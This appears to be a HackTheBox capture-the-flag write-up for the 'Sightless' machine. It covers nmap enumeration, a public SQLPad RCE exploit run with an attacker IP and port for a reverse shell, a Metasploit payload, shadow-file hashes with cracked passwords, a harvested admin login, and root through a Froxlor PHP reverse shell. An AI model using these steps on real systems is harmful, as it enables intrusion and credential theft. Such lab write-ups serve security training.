 ## Hackthebox Sightless Writeup 10.129.21.27

### Nmap enumeration

	Nmap scan report for 10.129.21.27
	Host is up, received reset ttl 63 (0.053s latency).
	Scanned at 2024-09-22 20:12:21 CDT for 71s

	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63
	| fingerprint-strings: 
	|   GenericLines: 
	|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.21.27]
	|     Invalid command: try being more creative
	|_    Invalid command: try being more creative
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
	|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
	80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to **http://sightless.htb/**
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port21-TCP:V=7.94SVN%I=7%D=9/22%Time=66F0C080%P=aarch64-unknown-linux-g
	SF:nu%r(GenericLines,A1,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
	SF:TP\x20Server\)\x20\[::ffff:10\.129\.21\.27\]\r\n500\x20Invalid\x20comma
	SF:nd:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x
	SF:20try\x20being\x20more\x20creative\r\n");
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 - 5.5 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/22%OT=21%CT=%CU=31167%PV=Y%DS=2%DC=T%G=N%TM=66F0C0BC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
	SEQ(SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=C)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)
	
From out nmap scan we can see the IP 10.129.21.27 is trying to redirect to http://sightless.htb on port 80. Let's add this to our /etc/hosts file and enumerate the web site on port 80. 

### Adding IP to /etc/hosts

![Hosts](/Sightless/images/hosts-file.png) 

Viewing the source code of sightless landing page we can find a sqlpad subdomain. Let's also add this to our /etc/hosts file and continue with enumeration. Sightless appears to be a development software from reading the home page.

Sightless is also an Enginx Server running on Ubuntu OS. Therefore, php, and html extensions will most likely be common.


![sql subdomain](/Sightless/images/sql-subdomain.png) 

The sqlpad subdomain looks like it might let up execute and run SQL queries. Lets try loading and running xp_cmdshell.

![sqlpad](/Sightless/images/sqlpad.png) 


Enumerating the sqlpad domain with dirsearch returns a manifest.json file that we can view.

![dirsearch](/Sightless/images/dirsearch.png) 

![dirsearch](/Sightless/images/directory-access.png) 

I'm going to see if I can run curl against the url to view the contents.

The manifests file doesn't return any information but clicking the 3 dots on the web page we can see that this is version 6.10 and searching SQLPad exploits we do see one for RCE on github catagorized as [CVE-2022-9444](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944). 


After downloading the github repo to my host machine I run the exploit script without and ags and I can see that it accepts the following arguments:

1. root_url
2. attacker_ip
3. attacker_port

I'm going to start a netcat listener on port 4444

Next I will run on my kali host:
	$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.X 4444


And we get an initial shell on the machine, it appears we are in a docker container.

![Shell](/Sightless/images/shell.png) 


### Exploitation

Viewing the sqlite db file in /var/lib/sqlpad we can see 2 user accounts.

1. john@sightless.htb
2. admin@sightless.htb

Python isn't installed in the docker container so I'm going to create a metasploit payload so I can transer files.

![Metasploit](/Sightless/images/met-payload.png) 

And transfer the payload to the target.

![Metasploit](/Sightless/images/transfer.png) 


Set up the Metasploit multi / handler

![Metasploit](/Sightless/images/transfer.png) 

After executing my payload on the target I get a meterpreter shell on my attack host.


![Metasploit](/Sightless/images/meterpreter.png) 


I pulled this hash out of the sqlprod db file. I will try to crack it.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n*********

I was able to crack the hash with JtR. It appears to be a hash for john. Let's see if I can SSH into the main box and get out of this docker shell.

![JtR](/Sightless/images/hash-crack.png) 

Looking at the /etc/passwrd file we see 3 users with shell access. Root, node, and michael.


![/etc/passwrd](/Sightless/images/passwrd.png) 

Shadow File

![/etc/shadow](/Sightless/images/shadow.png) 

Using unshadow I was able to get root and Michael's hashes. I will now try and crack them. 

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/

John successfully cracked both hashes. Let's see if we can login via ssh.

Hashes:

blindside
insaneclownposse


![JtR](/Sightless/images/john.png) 

One of the hashes works to login via SSH to Michael account.

![SSH](/Sightless/images/ssh.png) 

Sightless internal netstat ports listening

127.0.0.1:33060
127::3000
127.0.0.1:3306
127.0.0.1:8080


![Network](/Sightless/images/netstat.png) 
![Network](/Sightless/images/netstat2.png) 




### Privilege Escalation

Searching linpeas output Chrome is running -remote debugging-port=0. This appears exploitable.

I also noticed an additional subdomain. admin when I was parsing linpeas output. I'll add it to my /etc/hosts file. 

![Priv Esc](/Sightless/images/chrome.png) 


I next locally port forwarded all the listening ports on the target to my attack machine.


![SSH Local](/Sightless/images/ssh-local.png) 

Now within firefox I will add them all in.

chrome://inspect/#devices


After adding all the ports and capturing the requests in chrome debugger we find that the login is the following credentials.

Username: admin
Password: ForlorfroxAdmin

![Froxlar login](/Sightless/images/login.png) 


For root I copied a php reverse shell to /tmp on michael's ssh session. 

From froxlor I will now create a new php version and have it set to the command /tmp/shell.php and save. I will then deactive and active the service to trigger my shell and get root access. Don't forget to have a listener on your attack machine.


![tmp shell](/Sightless/images/php-shell.png) 


![Froxlar](/Sightless/images/change-version.png) 

![Froxlar](/Sightless/images/disable.png) 

![Froxlar](/Sightless/images/enable.png) 

We should now get a call back with a root shell on our attack machine.

![Root](/Sightless/images/root.png) 

![Root](/Sightless/images/cheanup.png) 

